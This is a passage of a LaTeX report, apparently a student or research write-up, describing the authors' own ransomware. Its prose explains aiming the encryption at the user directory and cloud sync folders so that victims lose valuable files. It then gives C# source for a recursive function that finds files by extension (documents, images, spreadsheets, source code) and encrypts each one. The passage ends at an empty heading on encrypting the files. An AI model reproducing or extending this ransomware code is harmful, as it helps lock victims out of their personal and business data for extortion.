 \subsection{Finding the Personal Files}\label{Finding the files}

The files we want to encrypt need to be valuable to the victim. So we orient our encryption algorithm on the User directory, where most users save there personal files. Also important to mention is that cloud services like dropbox or google drive have on default there sync folders in the user directory, which makes it also interesting. While we parsing through the folders of the user directory, we don't encrypt everything. We only encrypt the files that are possible valuable, files with extension like doc, png, pdf, xlx, outlook etc. This choice makes our ransomeware faster and more effective.   


\begin{lstlisting}[frame=single, showstringspaces=false] 
  
  //encrypts target directory
        public void encryptDirectory(string location, string password)
        {
            
   
            
            //extensions to be encrypt
            var validExtensions = new[]
            {
                ".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd",".mp3"
            };

            string[] files = Directory.GetFiles(location);
            string[] childDirectories = Directory.GetDirectories(location);
            for (int i = 0; i < files.Length; i++){
                string extension = Path.GetExtension(files[i]);
                if (validExtensions.Contains(extension))
                {
                    EncryptFile(files[i],password);
                }
            }
            for (int i = 0; i < childDirectories.Length; i++){
                encryptDirectory(childDirectories[i],password);
            }
            
            
        }

\end{lstlisting}

\subsection{Encrypting the files}


